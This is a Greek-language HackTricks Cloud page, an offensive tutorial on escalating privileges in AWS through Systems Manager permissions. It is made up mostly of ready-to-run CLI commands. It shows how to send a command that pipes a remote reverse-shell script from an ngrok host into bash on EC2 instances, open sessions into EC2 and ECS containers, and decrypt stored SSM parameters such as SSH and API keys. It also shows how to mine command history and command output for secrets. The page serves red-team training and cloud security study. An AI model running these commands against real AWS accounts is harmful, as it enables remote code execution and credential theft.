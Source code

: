 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ένας επιτιθέμενος με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελεί εντολές σε instances** που εκτελούν τον Amazon SSM Agent και να **συμβιβάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Σε περίπτωση που χρησιμοποιείτε αυτή την τεχνική για να κλιμακώσετε τα προνόμια μέσα σε μια ήδη παραβιασμένη EC2 instance, μπορείτε απλά να καταγράψετε το rev shell τοπικά με:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των ρόλων IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το **SessionManagerPlugin** εγκατεστημένο: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Πιθανές Επιπτώσεις:** Άμεση privesc στους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες παρουσίες με SSM Agents.

#### Privesc σε ECS

Όταν οι **ECS tasks** εκτελούνται με **`ExecuteCommand` ενεργοποιημένο**, οι χρήστες με αρκετά δικαιώματα μπορούν να χρησιμοποιήσουν `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο κοντέινερ.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), αυτό γίνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την εντολή “_exec_” και του στόχου κοντέινερ με τον SSM Session Manager. (Απαιτείται το SSM Session Manager Plugin για να λειτουργήσει)\
Επομένως, οι χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν ένα shell μέσα σε ECS tasks** με αυτή την επιλογή ενεργοποιημένη απλά εκτελώντας:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των ρόλων `ECS`IAM που είναι συνδεδεμένοι σε εκτελούμενα καθήκοντα με ενεργοποιημένο `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας επιτιθέμενος με την άδεια **`ssm:ResumeSession`** μπορεί να επαν-**ξεκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent με κατάσταση συνεδρίας SSM **αποσυνδεδεμένη** και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων προς τους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τις αναφερόμενες άδειες θα είναι σε θέση να καταγράψει τις **παραμέτρους SSM** και **να τις διαβάσει σε καθαρό κείμενο**. Σε αυτές τις παραμέτρους μπορείτε συχνά **να βρείτε ευαίσθητες πληροφορίες** όπως κλειδιά SSH ή κλειδιά API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και ελπίζουμε να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και **να διαβάσει την έξοδο** που έχει παραχθεί ελπίζοντας να βρει **ευαίσθητες πληροφορίες** σε αυτήν.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στην έξοδο των γραμμών εντολών.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα έργο codebuild που κατασκευάζεται:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
